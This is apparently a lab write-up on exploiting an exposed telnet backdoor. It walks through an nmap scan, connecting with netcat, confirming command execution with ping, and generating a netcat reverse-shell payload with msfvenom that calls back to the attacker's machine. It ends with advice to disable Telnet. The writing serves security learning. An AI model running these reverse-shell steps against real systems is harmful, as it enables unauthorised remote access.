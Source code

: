 # Telnet

Telnet is a network protocol used to provide a command-line interface for communication with a remote device or server. It operates over TCP/IP and allows users to log into remote systems, execute commands, and manage devices as if they were directly connected to them.

### Scope:

In this exercise, I will go through the steps of performing enumeration against a target host, and how to identiy unsecure protocols (Telnet) that may be enabled on a system and how to take advantage and exploit it. In this case, I will be using MSFvenm for the exploit. I will also be using Wireshark to see how the traffic generated looks like, and to also confim that the connection has been established. 

### Tools and Technology:
Linux, MSFvenom, and Wireshark

## Enumeration:

To get started, I used nmap to scan against the target host:

```
nmap 10.10.169.221 -Pn -sS -T5 -p- -vvv
```

![Pasted image 20240918162959](https://github.com/user-attachments/assets/d8c51f70-2762-4bf5-bcfa-27562b37045f)

Based on the output, I can see that port 8012 is open. I then tested the open port using Netcat:

```
nc 10.10.169.221 8012
```

![Pasted image 20240918163707](https://github.com/user-attachments/assets/06e2d5ee-9349-4742-8649-26bdea9d4057)

So far, based on the information gathered using nmap and Netcat, I know that following:

+ It looks like the telnet service is running but on a non-defulat port (8012)
+ The service is name "Skidy's Backdoor"
+ Given the name above, its possible that a user exists with the name "Skidy"

## Command Execution:

Given the output above, I am able to execute commands on the remote target host. To test, I used the ping command:

```
ping 10.10.8.55 -c1
```

![Pasted image 20240918154742](https://github.com/user-attachments/assets/beb4522a-3e51-47f4-aef0-faa80b60ede3)

Looking at Wireshark, I was able to get an ICMP response from the remote server, which means that I was able to execute the command successfully:

![Pasted image 20240918163559](https://github.com/user-attachments/assets/7768d463-417e-4949-bc1d-1c6cd9c6e2d7)

## MSFvenom

MSFVenom is a command-line tool that is part of the Metasploit Framework. MSFVenom can generate a wide variety of payloads, which are pieces of code that exploit vulnerabilities in target systems.

![Pasted image 20240918172441](https://github.com/user-attachments/assets/bc914b81-25bd-41be-8ac4-941158e72d4a)

Next, I generated a reverse shell payload using msfvenom:

![Pasted image 20240918162054](https://github.com/user-attachments/assets/f3b72690-3c87-471b-8ef4-90033966a292)

```
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.8.55 lport=4444 R
```

This is a breakdown of the command I am using:

+ -p = payload
+ lhost = our local host IP address (this is your machine's IP address)
+ lport = the port to listen on (this is the port on your machine)
+ R = export the payload in raw format

![Pasted image 20240918155327](https://github.com/user-attachments/assets/e1ddfd39-2322-496b-8f9f-3bba3f6a930e)

Executing the reverse shell on the remote system:

![Pasted image 20240918161932](https://github.com/user-attachments/assets/1802b354-d070-4f61-8b41-8e91471a9ae9)

Next I needed to create a listening port:

![Pasted image 20240918163517](https://github.com/user-attachments/assets/29861630-18e5-41c6-aa39-4266f5d0da93)

Looking at Wireshark, I can see taht the connection was established:

![Pasted image 20240918163114](https://github.com/user-attachments/assets/79363012-b260-48c8-ac5a-3bbb1dea2793)

This is a closer look at one of the packets:

![Pasted image 20240918163435](https://github.com/user-attachments/assets/432a3a52-8061-490d-8bea-f9f688c129b0)

### Sumamry:

In this exercise, I was able to identify the telnet service was running on the target host and exploit it using MSFvenom. For mitigation against these types of attacks, it's important to ensure that unsecure protocols such as Telnet, are disabled. If needed, you can replace Telnet with SSH for secure encrypted communications. Its also important to conduct regular security audits and vulnerability assessments to identify and mitigate potential risks associated with Telnet and other services that may be enabled/running as part of a misconfiguration. 
